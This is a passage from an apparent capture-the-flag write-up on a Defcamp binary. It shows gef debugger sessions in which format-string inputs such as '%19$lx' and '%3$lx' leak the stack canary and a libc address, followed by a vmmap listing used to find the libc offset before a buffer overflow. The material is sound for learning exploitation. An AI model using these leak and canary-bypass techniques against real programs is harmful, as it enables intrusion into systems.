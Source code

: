 ```r
0x00007fffffffdd18│+0x0008: 0x00007ffff7dcfa00  →  0x00000000fbad2288
0x00007fffffffdd20│+0x0010: 0x2520000a41414141 ("AAAA"?)	 ← $rsi
0x00007fffffffdd28│+0x0018: 0x00000a786c243931 ("19$lx"?)
0x00007fffffffdd30│+0x0020: 0x00007fffffffde20  →  0x0000000000000001
0x00007fffffffdd38│+0x0028: 0x50a01b0663fa1e00
0x00007fffffffdd40│+0x0030: 0x0000555555554830  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffdd48│+0x0038: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555554810 <main+150>       call   0x555555554650 <fgets@plt>
   0x555555554815 <main+155>       mov    eax, 0x0
   0x55555555481a <main+160>       mov    rcx, QWORD PTR [rbp-0x8]
 → 0x55555555481e <main+164>       xor    rcx, QWORD PTR fs:0x28
   0x555555554827 <main+173>       je     0x55555555482e <main+180>
   0x555555554829 <main+175>       call   0x555555554630 <__stack_chk_fail@plt>
   0x55555555482e <main+180>       leave  
   0x55555555482f <main+181>       ret    
   0x555555554830 <__libc_csu_init+0> push   r15
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "q3", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55555555481e → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x000055555555481e in main ()
gef➤  p $rcx
$1 = 0x50a01b0663fa1e00    <-- Ye, there it is.
gef➤  
```

Here, we have a stack canary leak which is equal to the one in `rcx` register where it's getting stored. So, now we need to find out the libc offset as we are now on buffer overflow stage. As we already know we need to get libc offset and from earlier that format string vulnerability was causing the libc address to leak, so it'd be a matter of time to find it out:-

```r
gef➤  r
Starting program: /home/robin/CTFs/Defcamp/q3 
Enter name : %3$lx
Hello
7ffff7af4154
Enter sentence : ^C  
Program received signal SIGINT, Interrupt.

-- snip --

gef➤  vmmap
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-x /home/robin/CTFs/Defcamp/q3
0x0000555555754000 0x0000555555755000 0x0000000000000000 r-- /home/robin/CTFs/Defcamp/q3
0x0000555555755000 0x0000555555756000 0x0000000000001000 rw- /home/robin/CTFs/Defcamp/q3
0x0000555555756000 0x0000555555777000 0x0000000000000000 rw- [heap]
0x00007ffff79e4000 0x00007ffff7bcb000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 0x0000000000000000 rw- 
```